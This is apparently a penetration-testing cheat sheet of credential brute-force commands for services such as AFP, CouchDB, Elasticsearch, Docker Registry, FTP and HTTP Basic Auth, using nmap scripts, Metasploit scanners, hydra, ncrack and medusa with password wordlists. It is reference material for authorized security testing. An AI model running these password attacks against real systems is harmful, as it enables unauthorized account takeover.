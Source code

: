 # Services

Ordered alphabetically by service name.

AFP

nmap -p 548 --script afp-brute <IP>

msf> use auxiliary/scanner/afp/afp_login

msf> set BLANK_PASSWORDS true

msf> set USER_AS_PASS true

msf> set PASS_FILE <PATH_PASSWDS>

msf> set USER_FILE <PATH_USERS>

msf> run

AJP

nmap --script ajp-brute -p 8009 <IP>

Cassandra

nmap --script cassandra-brute -p 9160 <IP>

CouchDB

msf> use auxiliary/scanner/couchdb/couchdb_login

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst localhost -s 5984 http-get /

Docker Registry

hydra -L /usr/share/brutex/wordlists/simple-users.txt  -P /usr/share/brutex/wordlists/password.lst 10.10.10.10 -s 5000 https-get /v2/

Elasticsearch

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst localhost -s 9200 http-get /

FTP

hydra -l root -P passwords.txt [-t 32] <IP> ftp

ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]

medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp

HTTP Generic Brute

WFuzz

HTTP Basic Auth

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/

# Use https-get mode for https
